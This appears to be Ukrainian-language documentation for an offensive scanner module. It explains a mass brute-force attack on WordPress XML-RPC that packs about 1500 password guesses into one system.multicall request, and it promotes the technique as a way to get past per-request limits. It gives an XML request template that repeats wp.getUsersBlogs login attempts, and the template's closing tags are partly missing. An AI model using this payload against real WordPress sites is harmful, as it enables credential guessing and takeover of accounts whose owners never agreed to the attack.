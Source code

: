 # Допоміжний модуль


## Сканер 

Базовий модуль-сканер


### Масована Брут-форс атака на WordPress XML-RPC

CMS WordPress підтримує XML-RPC для взаємодії майже з усіма функціями цього фреймворку. Деякі функції потребують аутентифікації. Основна проблема полягає в тому, що ви можете аутентифікуватися кілька разів в межах одного запиту. WordPress може прийняти близько 1788 рядків запиту XML за раз. що дозволяє нам спробувати автентифікуватися величезну кількість разів з одним лише запитом. Чи це не круто? Давайте поясню.

Уявіть, що вам треба перебирати 6000 паролів  одного якогось користувача. Скільки запитів вам потрібно надіслати до сервера використовуючи стандартні техніки брут-форс атаки? 6000 запитів! 
Користуючись нашим модулем ви зробите це всього за 4 запита якщо взяти стандартний CHUNKSIZE що дає нам 1500 паролів за запит. Ніякої багатопотоковості! І навіть, якщо використати традиційний брут-форс з багатопотоковістю ви надішлете все ті ж 6000 запитів і лише деякі з них в паралельно.

```xml
<?xml version="1.0"?>
<methodCall>
<methodName>system.multicall</methodName>
<params>
 <param><value><array><data>
 
 
  <value><struct>
  <member>
    <name>methodName</name>
    <value><string>wp.getUsersBlogs</string></value>
  </member>
  <member>
    <name>params</name><value><array><data>
     <value><array><data>
      <value><string>"USER #1"</string></value>
      <value><string>"PASS #1"</string></value>
     </data></array></value>
    </data></array></value>
  </member>
  
  ...Snippet...

  <value><struct>
  <member>
    <name>methodName</name>
    <value><string>wp.getUsersBlogs</string></value>
  </member>
  <member>
    <name>params</name><value><array><data>
     <value><array><data>
      <value><string>"USER #1"</string></value>
      <value><string>"PASS #N"</string></value>
     </data></array></value>
    </data></array></value>
  </member>
  
  
</params>
</methodCall>
```
